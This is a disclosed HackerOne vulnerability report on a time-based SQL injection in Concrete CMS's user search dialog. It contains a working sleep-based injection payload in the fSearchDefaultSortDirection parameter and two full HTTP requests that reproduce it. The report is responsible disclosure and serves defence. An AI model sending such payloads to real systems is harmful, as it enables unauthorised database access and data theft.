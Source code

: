 # Time-base SQL Injection in Search Users

## Report Details
- **Report ID**: 876800
- **URL**: https://hackerone.com/reports/876800
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-05-18T02:09:34.023Z
- **Disclosed**: 2020-08-05T01:08:55.415Z

## Reporter
- **Username**: thiennv
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: concretecms

## Vulnerability Information
Description
=====================
I've identified an SQL injection vulnerability in the website labs.data.gov that affects the endpoint **/index.php/dashboard/users/search** and can be exploited via the **fSearchDefaultSortDirection** param.

I didn't extract any data from the database, I've confirmed the vulnerability using sleep SQL queries with various arithmetic operations. The sleep command combined with the arithmetic operations will cause the server to sleep for various amounts of time depending on the result of the arithmetic operation.

For example, setting the value ==fSearchDefaultSortDirection=desc%2c(select*from(select(sleep(30)))a)== will cause the server to sleep for ==30== seconds or setting the value ==fSearchDefaultSortDirection=desc%2c(select*from(select(sleep(20)))a)== will cause the server to sleep for ==20== seconds.

To reproduce
=====================
Send the following HTTP request (With sleep=20s):
---------------------
```
POST /concrete5/index.php/ccm/system/dialogs/user/advanced_search/submit?ccm_token=1589765824:07f645727d279188e2ce2c91835ab0dd HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,vi-VN;q=0.8,vi;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 399
Connection: close

field%5B%5D=keywords&keywords=admin&field%5B%5D=is_active&active=0&u.uName=1&u.uEmail=1&u.uDateAdded=1&uStatus=1&u.uNumLogins=1&column%5B%5D=u.uName&column%5B%5D=u.uEmail&column%5B%5D=u.uDateAdded&column%5B%5D=uStatus&column%5B%5D=u.uNumLogins&fSearchDefaultSort=u.uDateAdded&fSearchDefaultSortDirection=desc%2c(select*from(select(sleep(20)))a)&fSearchItemsPerPage=10&__ccm_consider_request_as_xhr=1
```
Result: Server to sleep for 20 seconds
---------------------
F832170

Send the following HTTP request (With sleep=30s):
---------------------
```
POST /concrete5/index.php/ccm/system/dialogs/user/advanced_search/submit?ccm_token=1589765824:07f645727d279188e2ce2c91835ab0dd HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,vi-VN;q=0.8,vi;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 399
Connection: close

field%5B%5D=keywords&keywords=admin&field%5B%5D=is_active&active=0&u.uName=1&u.uEmail=1&u.uDateAdded=1&uStatus=1&u.uNumLogins=1&column%5B%5D=u.uName&column%5B%5D=u.uEmail&column%5B%5D=u.uDateAdded&column%5B%5D=uStatus&column%5B%5D=u.uNumLogins&fSearchDefaultSort=u.uDateAdded&fSearchDefaultSortDirection=desc%2c(select*from(select(sleep(30)))a)&fSearchItemsPerPage=10&__ccm_consider_request_as_xhr=1
```
Result: Server to sleep for 30 seconds
---------------------
F832171

## Impact

An attacker can manipulate the SQL statements that are sent to the MySQL database and inject malicious SQL statements. The attacker is able to change the logic of SQL statements executed against the database or extract sensitive information

## Attachments
- Time-base_SQLi_20s.png
- Time-base_SQLi_30s.png
